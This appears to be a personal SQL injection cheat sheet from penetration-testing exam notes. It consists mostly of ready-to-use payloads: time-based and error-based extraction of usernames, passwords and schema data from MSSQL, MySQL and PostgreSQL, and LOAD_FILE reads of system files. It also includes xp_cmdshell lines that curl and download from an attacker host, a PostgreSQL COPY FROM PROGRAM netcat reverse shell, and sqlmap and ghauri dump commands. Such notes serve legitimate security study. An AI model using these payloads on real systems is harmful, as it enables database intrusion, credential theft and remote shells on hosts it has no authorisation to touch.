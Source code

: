 ### :open_file_folder: References

- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://notchxor.github.io/oscp-notes/2-web/sqli/
- https://www.asciitable.com/
- https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
- https://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

### :open_file_folder: Blind SQL Injections

Find columns names

```SQL
' HAVING 1=1 --
' GROUP BY table.column1 HAVING 1=1 --
' GROUP BY table.column1, column2 HAVING 1=1 --
' GROUP BY table.column1, column2, column3(n) HAVING 1=1 -- and so on
```

Time-Based 

Use the waiting time to determine whether the conditional equation is valid

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on

-- e.g. confirm that the username is correct
'; IF (substring((select TOP 1 username from users), 1, 5) = 'admin') WAITFOR DELAY '00:00:05'--
```

```SQL
-- check column length
'; IF (select LEN(password) from users) = 64 WAITFOR DELAY '00:00:05' --
```

single column condition test

```SQL
/* 
    Check if there are uncommon [mysql] db names
    if found, wait N seconds
    ='1'...= '2'... and so on
*/
SELECT 'y' 
WHERE 1=0 or 
SLEEP(IF((SELECT COUNT(*) FROM information_schema.schemata 
WHERE schema_name NOT IN ('information_schema', 'mysql', 'performance_schema'))='1', 5, 0)); 
```

[MS SQL xp_cmdshell command testing](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)

```SQL
'; EXEC xp_cmdshell 'curl http://<attacker ip>'; --
'; EXEC xp_cmdshell 'curl http://<attacker ip>/<file> -o C:\\Users\\Public\\Documents\\<file>'; --
```

### :open_file_folder: Error-Based

SQL Server 

- https://infosecwriteups.com/exploiting-error-based-sql-injections-bypassing-restrictions-ed099623cd94
- https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/

```SQL
/* Adding additional strings ensures that error messages are prompted. */

/* database */
(CASE WHEN 1=CONVERT(INT, (CHAR(58) + CHAR(58) + (SELECT TOP 1 CAST(([name]) AS NVARCHAR(4000)) FROM [master]..[sysdatabases] WHERE name NOT IN ('master','model','msdb','tempdb')) + CHAR(58) + CHAR(58))) THEN 1 ELSE 2 END)

/* table */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables)) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN ('test'))) THEN 1 ELSE 2 END)

/* column */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test')) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test' AND column_name NOT IN ('id'))) THEN 1 ELSE 2 END)

/* data */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column1+';'+column2 FROM [database].dbo.test where id = '1')) THEN 1 ELSE 2 END)
```

### :open_file_folder: MySQL

Get DBs

```MySQL
SELECT group_concat(schema_name) FROM information_schema.schemata;
# For example, assuming that only one column is searched
# ' UNION SELECT group_concat(schema_name) FROM information_schema.schemata #
```

Get tables in DB

```MySQL
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DB>';
```

Get columns in table

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table>';
```

Find all ```user``` tables in DBs

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns where table_name = 'user';
# SELECT password FROM user
# MD5 password, hashcat -a 0 -m 0 hash.txt rockyou.txt
```

[Load file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file): we need FILE privilege

```MySQL
SELECT * LOAD_FILE('C:\Windows\System32\drivers\etc\hosts')
/* table contains columns */
x' UNION SELECT 1, LOAD_FILE('C:\Windows\System32\drivers\etc\hosts'),3-- -
```

Combining website LFI

```shell
wfuzz -z file,/tmp/file_inclusion_linux.txt -d "username=' UNION SELECT 1, LOAD_FILE('FUZZ'), 3, 4, 5, 6; -- -" --hw 89 <url>
# -d postdata
# -z file,wordlist
# hw:hide responses words
```

### :open_file_folder: MS SQL

```sql
SELECT name, database_id, create_date FROM sys.databases;
SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
SELECT TABLE_NAME FROM <databasename>.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
```

### :open_file_folder: PostgreSQL

connect to the database

```sql
psql -U postgres -h localhost
```

show databases and tables

```shell
# show databases
postgres=# \l
postgres=# SELECT datname FROM pg_database;
# use database
postgres=# \c testDB
# show tables
postgres=# \dt
postgres=# SELECT * FROM pg_catalog.pg_tables WHERE schemaname != 'pg_catalog' AND schemaname != 'information_schema';
# exit command line
postgres=# \q
# check version
postgres=# SELECT version();
```

Reverse shell with PostgreSQL user privilege.

```shell
postgres=# DROP TABLE IF EXISTS RevCmd;
postgres=# CREATE TABLE RevCmd(rev_cmd text);
postgres=# COPY RevCmd FROM PROGRAM '/tmp/nc -e /bin/sh <attacker ip> <attacker port>';
# try different commands, e.g., id
# postgres=# SELECT * FROM RevCmd;
# one liner
$ psql -U postgres -h localhost -c "DROP TABLE IF EXISTS RevCmd;CREATE TABLE RevCmd(rev_cmd text);COPY RevCmd FROM PROGRAM '/tmp/nc -e /bin/sh <attacker ip> <attacker port>';"
```


### :no_entry: sqlmap (:radioactive::radioactive::radioactive: cannot be used in the exam)

```shell
# GET
sqlmap -u "<target url>" --dump -C "columns" -T "tables" -D "database" --random-agent 
# GET, POST
sqlmap -r "<request.txt>" -p "<parameter1>,<parameter2>" --dump -C "columns" -T "tables" -D "database" --random-agent
sqlmap -u "<target url>" -p "<parameter1>,<parameter2>" --dump -C "columns" -T "tables" -D "database" --random-agent --data "<data body>"
```

request.txt = request contents

![SQLi_2022 02 28_19h37m55s_001](https://user-images.githubusercontent.com/8998412/155977929-7e38d3bb-8d61-4afa-af6b-90ae1e13ec73.png)


### :no_entry: ghauri (:radioactive::radioactive::radioactive: cannot be used in the exam)

You can always give it a try.

```shell
# GET
ghauri -u "<target url>" --confirm --level 3 --flush-session -p '<parameter1>,<parameter2>'
# GET, POST
ghauri -r "<request.txt>" --confirm --level 3 --flush-session -p '<parameter1>,<parameter2>' 
ghauri -u "<target url>" --confirm --level 3 --flush-session -p '<parameter1>,<parameter2>' --data "<data body>"
```